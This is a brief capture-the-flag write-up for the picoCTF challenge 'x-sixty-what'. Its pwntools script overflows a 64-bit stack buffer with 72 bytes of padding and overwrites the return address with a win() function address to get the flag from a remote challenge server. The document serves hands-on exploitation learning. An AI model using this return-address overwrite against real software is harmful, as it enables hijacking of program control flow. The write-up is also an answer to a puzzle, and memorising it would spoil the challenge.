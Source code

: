 # x-sixty-what

## Information

### Description

| Reminder: local exploits may not always work the same way remotely due to differences between machines.

Overflow x64 code

### Hints

(None)

## Solution

1. Discovery

2. Research
    * 找出 reture address 的 offset 與 win() 位址。

3. Exploitation
    ```py
        #! /usr/bin/env python

        from pwn import *

        # nc saturn.picoctf.net 58571
        p = remote(host='saturn.picoctf.net', port=60226)

        # payload
        offset = 72
        flag_addr = p64(0x000000000040123b)

        payload = flat(
            'a'*offset,
            flag_addr
        )

        success(payload)

        p.sendlineafter(b'elcome to 64-bit. Give me a string that gets you the flag:', payload)
        log.info(p.recvall())

    ```